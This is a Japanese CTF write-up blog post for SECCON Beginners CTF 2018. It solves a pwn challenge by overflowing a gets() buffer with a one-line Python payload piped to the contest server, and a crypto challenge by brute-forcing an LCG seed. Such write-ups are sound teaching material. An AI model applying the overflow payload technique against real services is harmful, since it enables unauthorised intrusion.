 
+++
date = "2018-05-29 15:30:47 +0000 UTC"
draft = false
title = "SECCON Beginners CTF 2018参加録"
tags = []

+++
サークルでCTFの大会に参加しました。1119点で844チーム中56位。そのときの備忘録を兼ねた自分の解いた問題のWrite-Upです。

[SECCON Beginners CTF 2018に参加しました - MIS.W 公式ブログ](http://blog.misw.jp/entry/2018/05/30/100000)

<!--more-->

# [Pwn] condition

とりあえず接続してみる

```
$ nc pwn1.chall.beginners.seccon.jp 16268
Please tell me your name...hello
Permission denied
```


接続先で動いているプログラムが与えられているのでダウンロードして、まずはstringsで含まれている文字列を調べてみます。

```
$ strings condition_68187f0953551cea907c48c016f19ff200de74b4
...
Please tell me your name...
OK! You have permission to get flag!!
flag.txt
Permission denied
...
```


正しい入力をしたらflag.txtを表示する感じですかね。ローカルでテストしたいのでダウンロードフォルダと同じディレクトリに適当にflag.txtを用意して

```
$ echo hello > flag.txt
```


gdbで逆アセンブルしつつ、デバッガ上で突破できないか試してみます。

```
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later lt;http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
lt;http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
lt;http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./condition_68187f0953551cea907c48c016f19ff200de74b4...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400771 <+0>:    push   %rbp
   0x0000000000400772 <+1>:    mov    %rsp,%rbp
   0x0000000000400775 <+4>:    sub    $0x30,%rsp
   0x0000000000400779 <+8>:    movl   $0x0,-0x4(%rbp)
   0x0000000000400780 <+15>:    mov    $0x4008d8,%edi
   0x0000000000400785 <+20>:    mov    $0x0,%eax
   0x000000000040078a <+25>:    callq  0x400600 <printf@plt>
   0x000000000040078f <+30>:    lea    -0x30(%rbp),%rax
   0x0000000000400793 <+34>:    mov    %rax,%rdi
   0x0000000000400796 <+37>:    mov    $0x0,%eax
   0x000000000040079b <+42>:    callq  0x400620 <gets@plt>
   0x00000000004007a0 <+47>:    cmpl   $0xdeadbeef,-0x4(%rbp)
   0x00000000004007a7 <+54>:    jne    0x4007bf <main+78>
   0x00000000004007a9 <+56>:    mov    $0x4008f8,%edi
   0x00000000004007ae <+61>:    callq  0x4005c0 <puts@plt>
   0x00000000004007b3 <+66>:    mov    $0x40091e,%edi
   0x00000000004007b8 <+71>:    callq  0x4007d3 <read_file>
   0x00000000004007bd <+76>:    jmp    0x4007c9 <main+88>
   0x00000000004007bf <+78>:    mov    $0x400927,%edi
   0x00000000004007c4 <+83>:    callq  0x4005c0 <puts@plt>
   0x00000000004007c9 <+88>:    mov    $0x0,%edi
   0x00000000004007ce <+93>:    callq  0x400640 <exit@plt>
End of assembler dump.
(gdb) b *0x00000000004007a0
Breakpoint 1 at 0x4007a0
(gdb) run
Starting program: /home/atsushi/Downloads/condition_68187f0953551cea907c48c016f19ff200de74b4 
Please tell me your name...helloooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo

Breakpoint 1, 0x00000000004007a0 in main ()
(gdb) i r rbp
rbp            0x7fffffffdb70    0x7fffffffdb70
(gdb) set{int}0x7fffffffdb6c=0xdeadbeef
(gdb) c
Continuing.
OK! You have permission to get flag!!
hello
[Inferior 1 (process 17809) exited normally]
(gdb) quit
```


disas mainしてみると、スタックポインタをベースポインタから0x30引いて、48バイトのスタック領域を確保しています。その後に0xdeadbeafとベースポインタの4バイト下からを比較をしています。要は48バイトの入力をして、最後の4バイトを0xdeadbeafにすればいいわけです。リトルエンディアンなのでひっくり返して

```
$ python -c "print(0x2c * 'a' + '\xef\xbe\xad\xde')" | nc pwn1.chall.beginners.seccon.jp 16268
Please tell me your name...OK! You have permission to get flag!!
ctf4b{T4mp3r_4n07h3r_v4r14bl3_w17h_m3m0ry_c0rrup710n}
```


わーい。

# [Crypto] Streaming

文字列を暗号化するプログラムであるencrypt.pyと暗号化されたencryptedが与えられています。encrypt.pyの中身を見てみます。

```python
import os
from flag import flag


class Stream:
    A = 37423
    B = 61781
    C = 34607
    def __init__(self, seed):
        self.seed = seed % self.C

    def __iter__(self):
        return self

    def next(self):
        self.seed = (self.A * self.seed + self.B) % self.C
        return self.seed

g = Stream(int(os.urandom(8).encode('hex'), 16))

encrypted = ''
for i in range(0, len(flag), 2):
    a = int(flag[i:i+2].encode('hex'), 16) ^ g.next()
    encrypted += chr(a % 256)
    encrypted += chr(a / 256)

open('encrypted', 'wb').write(encrypted)
```


ランダム生成されたseedが何だったのか分かれば良さそうです。また、2文字ずつ暗号化して、2文字から2文字を生成しているようです。コンテストのフラグの形式は<code>ctf4b{...}</code>なので、<code>ctf4b{</code>を暗号化した結果がencryptedの最初の6文字と一致するシード値を探して、その後はそのシード値を使って[a-zA-Z0-9_-{}]からencryptedと比較しつつ選択してflagを生成していきます。

#### main.py

```python
import os
import random

class Stream:
...

seed = None
text = 'ctf4b{'
enc = open('encrypted', 'r').read()
while True:
    seed = int(os.urandom(8).encode('hex'), 16)
    g = Stream(seed)
    flag = True
    for i in range(0, len(text), 2):
        a = int(text[i:i+2].encode('hex'), 16) ^ g.next()
        if chr(a % 256) != enc[i] or chr(a / 256) != enc[i+1]:
            flag = False
            break
    if flag:
        break

chars = "1234567890-_{}qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
res = ""
g = Stream(seed)
for i in range(0, len(enc), 2):
    n = g.next()
    while True:
        s = chars[random.randint(0, len(chars)-1)] + chars[random.randint(0, len(chars)-1)]
        a = int(s.encode('hex'), 16) ^ n
        if chr(a % 256) == enc[i] and chr(a / 256) == enc[i+1]:
            res += s
            break

print res
```


実行します。

```
$ python main.py
ctf4b{lcg-is-easily-predictable}
```


わーい。でも他の人のwrite-upと比べるとかなり頭の悪いことをやっていますね...
